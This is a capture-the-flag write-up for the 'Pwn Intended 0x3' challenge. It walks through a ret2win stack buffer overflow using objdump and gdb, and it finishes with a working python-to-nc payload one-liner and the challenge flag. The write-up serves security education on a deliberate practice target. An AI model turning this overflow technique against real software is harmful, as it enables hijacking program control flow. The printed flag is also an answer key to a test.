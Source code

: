 ## Pwn Intended 0x3

### Writeup by Trent (teerix)

Category: Pwn

```
Teleportation is not possible, or is it?

nc chall.csivit.com 30013

File Included: pwn-intended-0x3 Binary
```

When viewing the the pwn-intended-0x3 file in objdump, you can see that there is a `flag` function below main function's
memory allocation that is never called, so I assumed that was the function that gives us our flag! I noted the memory location
of the function: `0x4011ce`.

I created a python script of a padding "AAAABBBB...YYYYZZZZ" to use for determining where the seg fault occurs.

Setting a breakpoint at the return call of main, I input the padding and printed the stack pointer at the end of the return,
showing where the area before the segmentation fault was:

```
(gdb) break *0x4011cd
Breakpoint 1 at 0x4011cd
(gdb) run < padding
Starting program: /home/tdelor/Downloads/pwn-intended-0x3 < padding
Welcome to csictf! Time to teleport again.

Breakpoint 1, 0x00000000004011cd in main ()
(gdb) s 1
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x00000000004011cd in main ()
(gdb) x/s $sp
0x7fffffffdf48: "KKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
```


Which ended up being on the Js (40 bytes ahead of the padding start), meaning I needed a filler of 40 bytes to put me
at a place to inject the aforementioned memory address of the flag function into the saved instruction pointer upon the return call. Since this was
a 64-bit binary, I had to pad the memory location with a few bytes of 0s.

This is what I settled on:

`python -c "print 'A'*40 + '\xce\x11\x40\x00\x00\x00'" | nc chall.csivit.com 30013`

Which gave me the message "Well, that was quick. Here's your flag:" followed by the flag.

Flag: csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
